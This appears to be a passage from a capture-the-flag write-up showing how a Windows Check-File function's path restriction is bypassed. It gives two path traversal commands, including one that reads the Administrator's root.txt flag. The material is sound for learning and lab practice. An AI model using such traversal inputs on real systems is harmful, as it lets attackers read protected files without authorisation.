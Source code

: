 This function can only be run if the path contains _"D:"_ or _"C:\ProgramData"_.

Testing for **Path Traversal**:
```
Check-File C:\ProgramData\..\windows\system32\license.rtf
```

It is possible to use **Path Traversal** to read files in other directories, so the _root.txt_ flag can be read:
```
Check-File C:\ProgramData\..\Users\Administrator\Desktop\root.txt
```
